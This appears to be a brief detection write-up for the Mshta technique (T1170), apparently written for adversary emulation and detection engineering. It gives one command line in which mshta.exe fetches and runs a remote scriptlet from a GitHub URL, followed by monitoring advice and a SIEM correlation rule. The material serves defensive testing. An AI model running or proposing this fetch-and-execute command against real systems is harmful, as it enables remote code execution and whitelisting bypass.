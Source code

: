 Technique Description: Mshta (T1170)
------------------------------------
Mshta.exe is used to execute Microsoft HTML Applications (HTA). Attackers use mshta.exe to proxy execution of malicious files and Javascript or VBscript by going through Windows utility.  Mshta.exe can bypass application whitelisting.

Assumptions 
-------------
We assume that the attacker already has access to the target machine to run the mshta.exe command as a proxy to run a script.

Execution
-------------
From cmd line: mshta.exe javascript:a=(GetObject('script: https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();

 Detection 
-------------
Process monitor to monitor for execution of mshta.exe using command line raw or an obfuscated script.

Visibility 
-------------
mshta.exe

### Filter/ Correlation Rule ###
EventCode=4658 OR EventCode=3 AND mshta.exe 
![mshta](https://user-images.githubusercontent.com/32250546/55584524-5b93d480-56f2-11e9-9e99-863e684054c4.png)
